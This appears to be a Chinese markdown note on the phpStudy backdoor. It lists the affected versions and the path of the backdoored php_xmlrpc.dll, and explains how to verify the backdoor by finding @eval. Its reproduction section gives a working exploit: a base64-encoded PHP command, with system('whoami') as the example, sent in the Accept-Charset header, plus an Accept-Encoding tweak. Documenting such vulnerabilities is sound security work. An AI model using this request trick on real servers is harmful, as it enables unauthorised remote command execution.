


# phpstudy后门

- **phpstudy后门影响版本**

```
phpstudy 2016版php-5.4
phpstudy 2018版php-5.2.17
phpstudy 2018版php-5.4.45
```
- **后门位置**

后门代码存在于\ext\php_xmlrpc.dll模块中
- phpStudy2016路径
```
php\php-5.2.17\ext\php_xmlrpc.dll
php\php-5.4.45\ext\php_xmlrpc.dll
```
- [phpStudy2018](http://www.pc6.com/softview/SoftView_48660.html)
```
\php\php-5.2.17\ext\php_xmlrpc.dll
\php\php-5.4.45\ext\php_xmlrpc.dll
```
# 漏洞证明：
使用notepod打开上述后门模块地址 打开此文件查找@eval，文件存在@eval(%s(‘%s’))证明漏洞存在

--------------------

#漏洞复现

- 抓包


- 修改请求包内容：

添加请求头：
```sh
Accept-Charset:你需要执行的命令（base64加密）
```

另外：
```sh
Accept-Encoding: gzip, deflate//删除deflate前的空格
```

```sh
system('whoami');
base64编码为：c3lzdGVtKCd3aG9hbWknKTs=
```


成功执行system函数（命令执行函数）
后续不再赘述。

------------------------
